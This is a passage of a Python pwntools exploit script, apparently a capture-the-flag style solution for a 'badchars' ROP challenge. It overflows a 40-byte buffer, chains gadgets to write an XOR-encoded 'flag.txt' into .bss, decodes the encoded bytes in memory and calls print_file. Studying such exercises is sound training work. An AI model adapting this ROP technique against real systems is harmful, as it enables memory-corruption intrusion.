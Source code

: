 ```python
# Gadget: mov qword ptr [r13], r12 ; ret
#   - Writes r12 to address pointed by r13
mov = p64(0x400634)

# Gadget: xor byte ptr [r15], r14b ; ret
#   - Used to decode single bytes in memory by XORing with r14b
xor = p64(0x400628)

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] # Find the address of 'pop rdi; ret' gadget dynamically using ROP

# Memory: Writable section (.bss) to store our string
bss_addr = 0x601038

# Target string to write (must avoid badchars)
data2write = 'flag.txt'

# Random XOR key to encode badchars in the string
xor_key = 2

# Encode the string using XOR to avoid badchars
xoredstr, xor_offsets = xor_string(data2write, xor_key)

# --------------------------------------------------
# Step 4: Create initial padding to reach return address
# 40 bytes needed to overflow the buffer up to saved RIP
payload = b'A' * 40

# --------------------------------------------------
# Step 5: Write encoded string into memory using gadgets
#   1. pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
#   2. r12 = encoded string, r13 = bss_addr
#   3. mov qword ptr [r13], r12 ; ret

payload += pop_r12_r15               # Gadget to load r12–r15
payload += xoredstr                  # r12 = encoded "flag.txt"
payload += p64(bss_addr)             # r13 = destination address (.bss)
payload += p64(0xdeadbeefdeadbeef)   # r14 = junk
payload += p64(0xdeadbeefdeadbeef)   # r15 = junk
payload += mov                       # *r13 = r12 (write to memory)

# --------------------------------------------------
# Step 6: XOR specific bytes in memory to decode back to original basically inversion.
#   - Use xor byte ptr [r15], r14b to fix only bytes affected by badchars

for i in xor_offsets:
    payload += pop_r12_r15             # Gadget: pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    payload += p64(0xdeadbeefdeadbeef)      # Junk for r12 (not used)
    payload += p64(0xdeadbeefdeadbeef)      # Junk for r13 (not used)
    payload += p64(xor_key)                 # r14 = XOR key → goes into r14b
    payload += p64(bss_addr + i)            # r15 = address of the byte to fix
    payload += xor                          # xor byte ptr [r15], r14b ; ret

# --------------------------------------------------
# Step 7: Call print_file with .bss address as argument

payload += p64(pop_rdi)
payload += p64(bss_addr)
payload += p64(elf.plt.print_file)

# --------------------------------------------------
# Step 8: Send payload and interact with the process
io.recvuntil(b'> ')
```